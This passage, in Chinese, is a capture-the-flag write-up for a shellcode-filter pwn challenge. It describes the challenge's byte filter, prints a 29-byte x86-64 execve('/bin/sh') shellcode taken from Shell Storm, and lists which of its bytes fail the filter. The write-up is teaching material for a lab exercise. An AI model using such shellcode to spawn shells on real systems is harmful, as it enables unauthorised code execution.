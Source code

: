 # Shellcode 2

上一版本的 Shellcoder 说：「Maybe next time we should add more architectures」…

我还以为 Shellcoder 2 会要求「三种不同架构」的共通语呢…

这次直接就是个 C 程序了。

大概是这样的：

```python
# 不是 Python，只是借用一下语法…
def main(argc: int, argv: list[str]) -> int:
    setbuf(_bss_start, 0);
    print("Welcome to 0ops shellcode trilogy.")
    print("This is shellcode II: Emission of light")
    print("Input your shellcode:")
    buf = mmap(addr='wherever', size=0x1000, prot=['read', 'write', 'exec'], flags=['anonymous', 'shared'], fd=0, offset=0)
    read('cin', buf, 0x1000)
    
    for ch in buf:
        if not ch & 8:
            print("I'm so foolish that I don't recognize this genius shellcode")
            exit(-1)
    
    # just execute it fine
    execute(buf)
    
```

也没有加很多限制，除了……输入的 Shellcode 中的每一个字节的（从低到高数）第 4 位必须是 1。

> 魔鬼…魔鬼…

先打开 Shell Storm 找一下有没有合用的吧…

先来一个最短的看一下：

```assembly
--[ asm
6a 42                   push   0x42
58                      pop    rax
fe c4                   inc    ah
48 99                   cqo
52                      push   rdx
48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
2f 73 68
57                      push   rdi
54                      push   rsp
5e                      pop    rsi
49 89 d0                mov    r8, rdx
49 89 d2                mov    r10, rdx
0f 05                   syscall
```

这可只有 29 个字节啊！

Python 跑一遍，这些字节不符合：

```
bad code 0x42
bad code 0xc4
bad code 0x52
bad code 0x62
bad code 0x73
bad code 0x57
bad code 0x54
bad code 0xd0
bad code 0xd2
bad code 0x5
```

其他都可能还可以绕过…但是你这个！`05`！居然！不能用！

`syscall` 怎么绕得过去啊！

再仔细想了一下，感觉不太可能通过正常手段构造出这笨蛋能 Recognize 的 Shellcode 执行。

因为，这家伙不会过滤换行符！![image-20201013135026652](notes.assets/image-20201013135026652.png)

就算什么也不输入，他也会被这个 `\n` 绊死。

肯定得用一点 Pwn 手段了…

